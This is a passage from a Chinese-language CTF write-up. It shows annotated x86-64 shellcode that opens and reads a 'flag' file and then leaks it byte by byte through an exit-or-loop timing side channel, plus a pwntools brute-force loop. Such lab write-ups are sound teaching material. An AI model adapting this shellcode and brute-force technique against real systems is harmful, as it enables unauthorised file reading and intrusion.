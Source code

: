 ```plain
    p.send(shellcode)
```

al:rax 寄存器的低 8 位  
cl:rcx 寄存器的低 8 位  
dl:rdx 寄存器的低 8 位

```plain
mov r12, 0x67616c66    ; 将字符串 "flag" 的 ASCII 值加载到寄存器 r12 中
push r12               ; 将 r12 的值推送到栈上
mov rdi, rsp           ; 将栈上的地址赋给寄存器 rdi
xor esi, esi           ; 将 esi 寄存器清零
xor edx, edx           ; 将 edx 寄存器清零
mov al, 2              ; 将系统调用号 2（open）加载到寄存器 al 中
syscall                ; 执行系统调用 open，打开文件名为 flag 的文件

mov rdi, rax           ; 将 open 返回的文件描述符赋给 rdi
mov rsi, 0x10700       ; 将缓冲区地址加载到 rsi（缓冲区是用于存放 flag 内容）
mov dl, 0x40           ; 将读取的字节数加载到 dl（64 字节）
xor rax, rax           ; 将 rax 寄存器清零
syscall                ; 执行系统调用 read，读取 flag 内容到缓冲区

mov dl, byte ptr [rsi+{}]  ; 将缓冲区中的某个字节加载到寄存器 dl
mov cl, {}             ; 将输入参数 char 加载到寄存器 cl
cmp cl, dl             ; 比较寄存器 cl 和 dl 的值
jz loop                ; 如果相等，跳转到 loop 标签
mov al, 60             ; 将系统调用号 60（exit）加载到寄存器 al 
syscall                ; 执行系统调用 exit

loop:
jmp loop               ; 无限循环

这个代码片段中的 {} 部分是通过 format(dis,char) 动态插入的
```

可以看出来这个 shellcode 写的寄存器赋值都是用的低 8 位，然后寄存器清零也是用的 xor，已经把长度尽可能的缩小了  
然后我们打印一下长度可以看到只有 0x33，所以完全符合要求

[![](assets/1703640353-6b91ed69f5ba36c57ace38a620dffbcc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191750-3db0f8be-a317-1.png)  
然后就是循环了

```plain
flag = "" #初始化一个空的字符串来存储 flag。
for i in range(len(flag),36): #从当前 flag 长度到长度 35 的范围内找到 flag 的字符
    sleep(1)
    log.success("flag : {}".format(flag)) #打印当前已知的 flag 内容。
    for j in range(0x20,0x80): #在 ASCII 可打印字符范围内进行循环。
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1) #在 1 秒内没有收到数据，将抛出一个超时异常。
            flag += chr(j)
            s('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break #跳出当前的 for 循环，继续下一个长度的 flag 的爆破。
        except:           
            p.close()
```
